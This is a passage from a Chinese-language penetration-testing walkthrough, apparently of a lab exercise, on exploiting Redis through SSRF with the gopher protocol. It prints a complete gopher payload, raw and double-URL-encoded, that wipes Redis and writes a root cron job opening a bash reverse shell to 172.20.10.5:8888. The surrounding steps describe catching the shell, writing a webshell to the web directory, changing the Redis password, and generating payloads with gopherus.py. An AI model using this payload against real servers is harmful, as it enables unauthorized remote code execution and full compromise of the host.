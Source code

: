     ```

    ```jsp
    gopher://172.20.10.4:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2461%0D%0A%0A%0A%0A%0A%2A/1%20%2A%20%2A%20%2A%20%2A%20bash%20-i%20%3E%26%20/dev/tcp/172.20.10.5/8888%200%3E%261%0A%0A%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2415%0D%0A/var/spool/cron%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%244%0D%0Aroot%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A
    gopher%3a%2f%2f172.20.10.4%3a6379%2f_%252A1%250D%250A%25248%250D%250Aflushall%250D%250A%252A3%250D%250A%25243%250D%250Aset%250D%250A%25241%250D%250A1%250D%250A%252461%250D%250A%250A%250A%250A%250A%252A%2f1%2520%252A%2520%252A%2520%252A%2520%252A%2520bash%2520-i%2520%253E%2526%2520%2fdev%2ftcp%2f172.20.10.5%2f8888%25200%253E%25261%250A%250A%250A%250A%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%25243%250D%250Adir%250D%250A%252415%250D%250A%2fvar%2fspool%2fcron%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%252410%250D%250Adbfilename%250D%250A%25244%250D%250Aroot%250D%250A%252A1%250D%250A%25244%250D%250Asave%250D%250A

    ```
5. 主机监听172.20.10.5

    ​![image](assets/image-20240920233740-k7rmenn.png)​
6. 拿到了shell，另一种方法是通过gopher直接写shell到redis的web目录，<span data-type="text" style="color: var(--b3-font-color9);">前提是redis主机有web服务</span>。

    ​![image](assets/image-20240921002900-0qjzbcd.png "web服务是有的。")​
7. 根据前面主机监听修改redis服务器密码，方便查看shell有没有上传成功。

    ​![image](assets/image-20240920234721-7ceyro5.png)​
8.  使用gopherus.py工具生成gopher的payload。
